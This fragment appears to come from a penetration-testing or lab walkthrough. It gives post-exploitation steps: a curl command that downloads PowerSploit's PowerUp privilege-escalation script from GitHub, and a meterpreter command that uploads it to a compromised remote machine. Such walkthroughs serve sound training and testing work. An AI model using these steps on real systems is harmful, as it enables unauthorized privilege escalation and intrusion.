 once in a shell on the machine, open a terminal on your local machine and download this script
`curl https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps > powerup.ps1`
then in a meterpreter shell on the remote machine copy the script over:
`upload /home/kali/powerup.ps1`